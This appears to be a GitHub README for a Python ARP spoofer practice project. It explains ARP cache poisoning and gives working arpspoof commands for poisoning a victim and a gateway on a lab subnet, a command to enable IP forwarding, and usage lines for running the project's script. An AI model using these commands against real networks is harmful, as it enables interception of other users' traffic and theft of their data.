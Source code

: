 # ARP Spoofer

ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends an ARP request to a device on a local area network, associating its MAC address with the IP addresses of other devices. 
Most likely this includes the default router or gateway, causing any traffic from the local network meant for it to be sent to the attacker instead.

There are many existing tools, like `arpspoof` that can do this.

From the hacking machine to the victim machine:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.75 192.168.122.1
```

and to the router:

```shell
$ sudo arpspoof -i eth0 -t 192.168.122.1 192.168.122.75
```

and setting enabling forward (not persistent) on the hacking machine:

```shell
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

And programming such an ARP Spoofer is excellent practice.

## Requirements

* Root access
* Python 3
* Scapy

## Usage

```shell
usage: arp_spoofer.py [-h] [-t TARGET_IP] [-s SPOOF_IP]
```

Example:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```